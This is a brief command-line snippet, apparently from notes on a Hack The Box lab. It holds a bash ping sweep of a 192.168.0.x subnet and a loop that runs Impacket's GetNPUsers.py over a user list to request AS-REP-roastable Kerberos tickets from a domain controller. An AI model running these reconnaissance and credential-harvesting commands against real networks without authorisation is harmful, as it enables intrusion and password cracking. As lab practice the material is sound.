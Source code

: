 #ping all the 192.168.0.x subnet
for i in $(seq 1 10); do (ping -c 1 192.168.0.${i} | grep "bytes from" | awk '{print $4}'&);done;

#loops over a file "users" executes.py 
for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.161 htb/${user}| grep-v Impacket;done
